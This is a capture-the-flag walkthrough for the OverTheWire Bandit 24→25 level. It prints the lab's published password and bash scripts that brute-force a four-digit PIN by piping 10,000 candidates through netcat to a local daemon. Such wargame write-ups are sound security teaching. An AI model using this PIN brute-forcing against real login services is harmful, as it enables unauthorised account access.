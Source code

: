 [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  

username: bandit24  
password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  

Solution below:  
———————————————————————————————————————  
`ssh bandit24@bandit.labs.overthewire.org -p2220`  
So we know from previous levels we can submit to that port with `nc -N localhost 30002` when we try that it outputs the below:  
> I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.  

So, we can then send it:  
`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000` and that outputs the below and prompts again.  
> Wrong! Please enter the correct pincode. Try again.  

Obviously, we're going to have to script this, but how can we submit that data via the script? I read the man pages which didn't give a perfect answer so let's just give something a try here:  
```
#!/bin/bash
nc -N localhost 30002
for i in $(seq -f "%04g" 0 9999)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar" + $i
done
``` 
Note: We need to pad so they're all 4 characters long, I found this for loop online to do that.  
`mkdir /tmp/gabedini` and then `cd /tmp/gabedini`  and `nano script.sh` paste in the above and control+x to exit.  
Give it executable permissions, `chmod +x script.sh`  
Well that didn't work because it opened the connection and waited instead of taking the echos...I also see that it included the + so I have a syntax error there.  
I think we need to read those in from a file, so what we'll do instead is make a file with those combos and then try that.  
```
#!/bin/bash

for i in $(seq -f "%04g" 0 9999)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> passwordsdontuse.txt
done
```  
`nc localhost 30002 <passwords.txt`  
Ok so that is working to do it that way, but it seems to time out after about 6k even if I manually set the number of seconds, so I think it might be a rate limiter on the other side? Not sure, but we're going to make a second file, the script looks like this now (could have just modified to make a second set, but we're making it as it would be if it worked in one go):  
```
#!/bin/bash

for i in $(seq -f "%04g" 0 5000)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> passwords.txt
done

for i in $(seq -f "%04g" 5001 9999)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> passwords2.txt
done
```  
And then running this gets us the password:  `nc localhost 30002 <passwords2.txt`  

`exit`  